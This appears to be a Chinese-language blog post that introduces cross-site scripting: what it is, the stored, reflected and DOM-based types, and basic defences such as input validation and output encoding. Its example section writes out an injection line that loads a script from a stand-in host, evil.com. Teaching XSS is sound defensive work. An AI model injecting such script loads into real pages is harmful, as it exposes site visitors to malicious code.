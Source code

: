 ```yaml
---
layout: post
title: XSS-web 安全
date:  2018-09-26 08:56:29 +0800
categories: [Web]
tags: [web, web-safe, sh]
published: true
excerpt: web 安全之跨站脚本攻击
---
```


# XSS

## 命名

Cross Site Script（XSS， 跨站脚本攻击)

为什么叫 XSS，缩写明显是 CSS 啊？

没错，为了防止与我们熟悉的 CSS（Cascading Style Sheets）混淆，所以干脆更名为 XSS。

## 定义

那 XSS 是什么呢？

一言蔽之，XSS 就是攻击者在 Web 页面中插入恶意脚本，当用户浏览页面时，促使脚本执行，从而达到攻击目的。

XSS 的特点就是想尽一切办法在目标网站上执行第三方脚本。

ps: 就算不是恶意的，比如用户无心输入 `<>`。如果没有措施，也会导致显示混乱。

# 案例

举个例子。原有的网站有个将数据库中的数据显示到页面的上功能，`document.write("data from server")`。

但如果服务器没有验证数据类型，直接接受任何数据时，攻击者可以会将 `<script src='http:bad-script.js'></scirpt>` 当做一个数据写入数据库。

当其他用户请求这个数据时，网站原有的脚本就会执行 `document.write("<script src='http://www.evil.com/bad-script.js'></scirpt>"`)，

这样，便会执行 bad-script.js。

如果攻击者在这段第三方的脚本中写入恶意脚本，那么普通用户便会受到攻击。

# 类型

XSS 主要有三种类型：

## 存储型 XSS

注入的脚本永久的存在于目标服务器上，每当受害者向服务器请求此数据时就会重新唤醒攻击脚本；

## 反射型 XSS

当用受害者被引诱点击一个恶意链接，提交一个伪造的表单，恶意代码便会和正常返回数据一起作为响应发送到受害者的浏览器，从而骗过了浏览器，使之误以为恶意脚本来自于可信的服务器，以至于让恶意脚本得以执行。

## DOM 型 XSS

有点类似于存储型 XSS，但存储型 XSS 是将恶意脚本作为数据存储在服务器中，每个调用数据的用户都会受到攻击。

但 DOM 型 XSS 则是一个本地的行为，更多是本地更新 DOM 时导致了恶意脚本执行。

# 防御

1. 从客户端和服务器端双重验证所有的输入数据，这一般能阻挡大部分注入的脚本

2. 对所有的数据进行适当的编码

3. 设置 HTTP Header： "X-XSS-Protection: 1"

# 参考资料

[Web 安全入门之常见攻击](https://zhuanlan.zhihu.com/p/23309154)

[xss-tutorial](https://hackertarget.com/xss-tutorial/)

* any list
{:toc}